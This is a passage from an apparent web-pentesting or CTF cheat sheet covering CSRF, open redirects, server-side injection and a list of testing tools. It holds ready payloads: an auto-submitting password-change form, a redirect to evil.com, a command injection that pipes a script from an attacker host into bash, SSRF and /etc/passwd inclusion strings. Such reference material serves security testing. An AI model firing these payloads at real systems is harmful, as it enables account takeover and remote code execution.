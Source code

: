 * Check for missing CSRF tokens.
* Try auto-submit forms:

```html
<form action="https://target/change_password" method="POST">
<input type="hidden" name="password" value="pwned">
<script>document.forms[0].submit()</script>
</form>
```

***

#### 🔹 Open Redirects

Test parameters like `redirect=`, `next=`, `url=`:

```
https://target.com/login?redirect=https://evil.com
```

***

### VI. 🧱 Server-Side Exploits

| Vector                | Example                                                       | Goal                     |
| --------------------- | ------------------------------------------------------------- | ------------------------ |
| **SSRF**              | `url=http://127.0.0.1:8080/admin`                             | Access internal services |
| **Command Injection** | \`; curl [http://attacker/shell.sh](http://attacker/shell.sh) | bash\`                   |
| **File Inclusion**    | `page=../../../../etc/passwd`                                 | LFI/RFI                  |
| **XXE**               | Inject XML with external entity                               | File read / SSRF         |
| **Deserialization**   | `pickle.loads` / `php unserialize`                            | RCE                      |

🧠 Always pair SSRF + local admin portal + metadata service = internal RCE (CTF classic).

***

### VII. 🧰 Automation & Toolchains

| Tool                            | Use                               |
| ------------------------------- | --------------------------------- |
| **Burp Suite / OWASP ZAP**      | Manual web proxy & fuzzing        |
| **ffuf / gobuster / dirsearch** | Directory and param brute-forcing |
| **httpx / nuclei**              | Automated tech & vuln scanning    |
| **sqlmap**                      | SQLi automation                   |
| **x8 / dalfox**                 | XSS detection                     |
| **nuclei templates**            | Reusable vulnerability signatures |
| **arjun**                       | Hidden parameter discovery        |
| **wfuzz**                       | Parameter fuzzing                 |
| **jwt\_tool / jwt-cracker**     | Token tampering                   |
| **whatweb / wappalyzer**        | Tech stack enumeration            |
